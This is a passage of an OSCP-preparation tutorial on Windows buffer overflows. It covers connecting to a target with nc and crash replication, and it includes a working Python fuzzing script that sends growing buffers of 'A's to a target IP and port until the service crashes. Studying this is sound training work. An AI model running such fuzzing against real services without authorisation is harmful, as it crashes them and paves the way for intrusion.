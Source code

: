 ```yaml
---
description: >-
  A walkthrough of the process to create a buffer overflow in windows in
  preperation for OSCP. This guide should be used with the walkthrough youtube
  video: https://www.youtube.com/watch?v=tUWCmpxWYdo
---
```


# OSCP  Buffer Overflow Guide \(Windows\)

### 1. Play with the Program

First and foremost we should play with the application, see how it works. how many inputs it takes, is there a command we have to enter before we get to our overflow command, etc.

Make sure the program is running in immunity and connect to it with nc:

```text
nc -nv <IP> <PORT>
```

### 2. Crash Replication

This step is finding a reliable way of crashing the application. This will usually be sending a string of A's, this can be done manually or writing a small python program.

{% hint style="info" %}
Sometimes the buffer can be very small \(200-300 chars\) and sometimes very large \(10000+\) so adjust your fuzzing accordingly
{% endhint %}

```text
python -c 'print"A" * 1000'
```

If we want to automatically fuzz with increments of 100 we can use the following:

Fuzz.py \(default script will send increments of 100\)

```text
#!/usr/bin/python 
import sys,socket 
import time 
address = '<target IP>' 
port = <PORT> 
buffer = ['A'] 
counter = 100 
while len(buffer) < 10: 
 buffer.append('A'*counter) 
 counter=counter+100 
try: 
 for string in buffer: 
  print '[+] Sending %s bytes...' % len(string) 
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
  connect=s.connect((address,port)) 
  s.send(string + '\r\n') 
  s.recv(1024) 
  print '[+] Done' 
except: 
  print '[!] Unable to connect to the application. You may have crashed it.' 
  sys.exit(0) 
finally: 
 s.close()
```
